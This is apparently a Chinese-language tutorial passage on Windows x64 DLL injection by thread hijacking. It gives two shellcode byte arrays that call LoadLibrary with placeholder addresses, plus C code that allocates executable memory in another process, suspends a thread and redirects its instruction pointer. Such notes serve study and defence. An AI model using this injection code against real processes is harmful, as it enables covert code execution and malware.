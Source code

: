 ```c
	0x68, 0xef,0xbe,0xad,0xde,
	0x48, 0xB9, 0xCC, 0xCC, 0xCC, 0xCC, 0xCC, 0xCC, 0xCC, 0xCC, // mov rcx, 0CCCCCCCCCCCCCCCCh (place holder for DLL path name)
	0x48, 0xB8, 0xCC, 0xCC, 0xCC, 0xCC, 0xCC, 0xCC, 0xCC, 0xCC, // mov rax, 0CCCCCCCCCCCCCCCCh (place holder for LoadLibrary)
	0xFF, 0xD0,                // call rax (call LoadLibrary)
	0x58, // pop dummy
	0x41, 0x5F,                                                             // pop r15
	0x41, 0x5E,                                                             // pop r14
	0x41, 0x5D,                                                             // pop r13
	0x41, 0x5C,                                                             // pop r12
	0x41, 0x5B,                                                             // pop r11
	0x41, 0x5A,                                                             // pop r10
	0x41, 0x59,                                                             // pop r9
	0x41, 0x58,                                                             // pop r8
	0x5F,                                                                   // pop rdi
	0x5E,                                                                   // pop rsi
	0x5D,                                                                   // pop rbp
	0x5B,                                                                   // pop rbx
	0x5A,                                                                   // pop rdx
	0x59,                                                                   // pop rcx
	0x9D,                                                                   // popfq
	0x58,                                                                   // pop rax
	0xC3                                                                    // ret
// 上面的shellcode无非就是先保存现场，调用LoadLibrary，然后再还原现场，避免出错。
}
```

shellcode2:

```c
unsigned char ShellCode [] =
{ 
0x48,0x83,0xEC,0x28,   //sub rsp,28
0x48,0x89,0x44,0x24,0x18,  // mov rsp+18,rax
0x48,0x89,0x4C,0x24,0x10,  // mov rsp+10,rcx
0x48,0xB9,0x11,0x11,0x11,0x11,0x11,0x11,0x11,0x11,  //mov rcx,1111111111111111  (DLL路径)
0x48,0xB8,0x22,0x22,0x22,0x22,0x22,0x22,0x22,0x22,  //mov rax,2222222222222222  (LoadLibrary地址)
0xFF,0xD0, //call rax
0x48,0x8B,0x4C,0x24,0x10, // mov rcx,rsp+10
0x48,0x8B,0x44,0x24,0x18,  // mov rax,rsp+18
0x48,0x83,0xC4,0x28, // add rsp,28
0x49,0xBB,0x33,0x33,0x33,0x33,0x33,0x33,0x33,0x33,  //mov r11,3333333333333333  (返回地址)
0x41,0xFF,0xE3  // jmp r11
}
```

核心代码:

```c
// 为shellcode申请内存空间
ShellCodeAddr = VirtualAllocEx(hProcess, NULL, ScSize, MEM_COMMIT , PAGE_EXECUTE_READWRITE);
//获取线程ID
ThreadID = GetThreadID(dwPID);
//获取线程句柄
hThread = OpenThread(THREAD_ALL_ACCESS, FALSE, ThreadID);
// 将线程挂起
SuspendThread(hThread);
// 设置权限，如果获取线程前不这样做就会导致无法获得上下文数据，ctx.RIP读取为0
ctx.ContextFlags = CONTEXT_CONTROL;
// 获取线程上下文Context
GetThreadContext(hThread, &ctx);
//保存OldRip，并更改Rip为Shellcode地址，并修改上下文属性
OldRip = ctx.Rip;
ctx.Rip = (DWORD64)ShellCodeAddr;
```